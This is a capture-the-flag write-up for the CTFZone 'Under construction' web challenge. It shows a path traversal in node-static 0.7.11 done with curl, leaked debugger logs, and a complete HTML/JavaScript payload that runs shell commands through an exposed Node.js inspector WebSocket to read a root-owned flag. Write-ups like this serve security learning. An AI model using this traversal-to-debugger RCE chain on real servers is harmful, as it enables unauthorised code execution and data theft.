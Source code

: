 # Under construction
> We started the development of a new task but havent completed it yet.

> The debug version works on the site. We believe there is no way to get the flag now, but you can try!

## About the Challenge
We were given a source (You can download the source code [here](source.zip)) and also the website. Here is the preview of the website


[Image extracted text: < > C
Not secure
web-under-construction-ins1ctfzone
COUNTDOWN
BROWSER
UPCOMING
CTFZONE FINALS COUNTDOWN:
057.23.49.40]


There is a countdown and there is also another endpoint where we can input a URL and then The website will then navigate to the URL we have inputted


[Image extracted text: COUNTDOWN
BROWSER
UPCOMING
SUBMIT
SIE URL
http / /localhost
URL]


## How to Solve?
Now let's check the source code


[Image extracted text: app
File folder
appjs
JavaScript Source File
docker-compose.yml
Yaml Source File
Dockerfile
File
packagejson
JSON Source File
workerjs
JavaScript Source File]


There is a folder called `app`, and 2 js file: `app.js` and `worker.js`. Let's see the `package.json` first to see if there is an outdated dependencies

```json
{
  "dependencies": {
    "node-static": "0.7.11",
    "puppeteer": "20.7.3",
    "react-cyber-elements": "^1.0.2"
  }
}
```

Hmm, what is `node-static` package? lets see if this version is vulnerable or not using `security.snyk.io`


[Image extracted text: 1 - 26 of 26 Results
VERSION
PUBLISHED
DIRECT VULNERABILITIES
0.7.11
23 Sep, 2018
0.7.10
15 Sep, 2017]


And voilà, we know this package was vulnerable to `CVE-2023-26111` (You can check this [gist.github.com](https://gist.github.com/lirantal/c80b28e7bee148dc287339cb483e42bc) to read the details). Let's check the source code again

```node
const hostname = '0.0.0.0';
const port = 3000;
var file = new static.Server('./app');
```

This program creates a node-static server to serve the `./app` folder. As a result, we can access folders or files that begin with the word `app` such as `../app.txt` or ``../app/index.html``. For example, due to the presence of a file named app.js in the server, we can send a request like the following using curl.

```bash
curl "http://web-under-construction-ins1.ctfz.one/../app.js" --path-as-is -v
```


[Image extracted text: C:|Users| Muhammad Daffa curl "http:/ /web-under-construction-insl
ctfz.one/
[app. js"
~path-as-is
~V
Trying
178.170.194.47:80 
Connected
to web-under-construction-insl
ctfz.one (178.170.194.47) port
80 (#0)
GET
1 .  lapp. js
HTTP/1.1
Host
web-under-construction-insl.ctfz
one
User-Agent
curl/8.0.1
Accept :
*I*
HTTP/1.1
200 Ok
server
node-static/o.7.9
cache-control
max-
~age-3600
Etag:
"1838673-1648-1691755855000"
Date
Sun
13
2023
03:13:39
GMT
Last-Modified:
Fri
11
2023
12:10:55 GMT
Content-Type
application/javascript
Content-Length:
1648
Connection:
keep-alive
Keep-Alive
timeout=5
const http
require( 'http' ) ;
const
static
require(
node-static' );
const
url_lib
require(
url' );
const
puppeteer
require( ' puppeteer' ) ;
const
Worker
require(
worker_
threads' )
Aug
Aug]


It will show us the source code of `app.js`. Not let's check the `Dockerfile`.

```bash
CMD ["bash","-c","node --inspect app.js  1>app-logs.out 2>app-logs.err"]
```

As you can see, the program ran using `--inspect` switch and the output will be put in a file called `app-logs.out` and if there is an error it will be put in a file called `app-logs.err`. In this case we can see the output of these 2 files by using this curl command

```bash
curl "http://web-under-construction-ins1.ctfz.one/../app-logs.out" --path-as-is -v
curl "http://web-under-construction-ins1.ctfz.one/../app-logs.err" --path-as-is -v
```


[Image extracted text: Trying
178
170.194.47:80
Connected
to web-under-construction-insl
ctfz
one (178.170.194.47) port 80 (#0)
GET
1_
[app-Logs
out HTTP/1.1
Host
web-under-construction-insl ctfz
one
User-Agent
curl/8.0.1
Accept
*I*
HTTP/1.1
200
Ok
server
node-static/o.7.9
cache-control
max-age-3600
668304-222988-1691947653000"
Date
Sun
13 Aug 2023
17:28:38 GMT
Last-Modified 
Sun
13 Aug 2023
17:27:33 GMT
Content-Type
application/octet-stream
Content-Length
222988
Connection: keep-alive
Keep-Alive
timeout=5
Server running
at http://0.0.0.0:3000/
Visiting http
/127.0.0.1
curl http
Ivfe27nlbbcwlyivxegls8yo8zzSwtl .oastify
com
Worker
url:http://127.0.0.1
curl
http:
Ivfe27nlbbcwlyivxegls8yo8zzSwtl.oastify
com
Error
net
ERR_NAME
NOT_RESOLVED
at http=
1127.0.0.1
Etag]



[Image extracted text: Trying
178.170.194.47:80
Connected
to web-under-construction-insl ctfz
one (178.170.194.47) port 80 (#0)
GET
1.. lapp-Logs
err HTTP/1.1
Host
web-under-construction-insl ctfz
one
User-Agent
curl/8.0.1
Accept
*I*
HTTP/1.1
200
Ok
server
node-static/o.7.9
cache-control: max-age-3600
Etag
668307-2231-1691945860000"
Date
Sun
13 Aug 2023
17.28:21 GMT
Last-Modified:
Sun
13 Aug 2023
16:57:40 GMT
Content-Type
application/octet-stream
Content-Length:
2231
Connection: keep-alive
Keep-Alive
timeout=5
Debugger Listening
on
WS
1/127.0 . 0.1:9229/7e74654f-ad02-48a6-abd9-65aaafd98472
For help_
see
https: //nodejs.org/en/docs/inspector
Debugger attached .
Debugger ending
on
WS
1/127.0 . 0.1:9229/7e74654f-ad02-48a6-abd9-65aaafd98472
For help,
see
https: / /nodejs.org/en/docs/inspector
Debugger attached .
Debugger ending
on
WS :
1/127.0 . 0 . 1:9229/7e74654f-ad02-48a6-abd9-65aaafd98472]


And then what? let's check `Dockerfile` again. The flag was located in `/root/flag.txt`

```
RUN echo "ctfzone{REDACTED}" > /root/flag.txt
RUN echo "ubuntu ALL = (root) NOPASSWD: /bin/cat /root/flag.txt" >> /etc/sudoers
```

So, we need to do Remote Code Execution and then run `sudo /bin/cat /root/flag.txt` to obtain the flag. And to do RCE, as I said before, the program ran using `--inspect` switch. And because of we know the URL of the debugger we can do RCE (You can read this [post](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse) about RCE in Node.js Debugger).

And in the end, we create a HTML code to read the flag and then put the flag to `app-logs.out` file

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <script>
        let ws = new WebSocket("ws://127.0.0.1:9229/bff792d1-3b2c-4d2a-812a-d95a7f158f2c");
        ws.onmessage = function(data){new Image().src = '/message?' + data.data;}
        ws.onerror = function(data){new Image().src = '/error?' + data;}
        ws.onopen = () => {
            ws.send(
              JSON.stringify({
                id: 1,
                method: "Runtime.evaluate",
                params: {
                  expression:
                    'require(\'child_process\').execSync(\'sudo /bin/cat /root/flag.txt >> /home/ubuntu/app-logs.out\')',
                },
              })
            );
        };
    </script>
</body>
</html>
```

Host this HTML code somewhere, for example use VPS to host the code. And then put our website into `/browser` endpoint in the website. Wait for a while and you can obtain the flag

```
ctfzone{d3bug_m0d3_1s_c00l_f0r_CTF}
```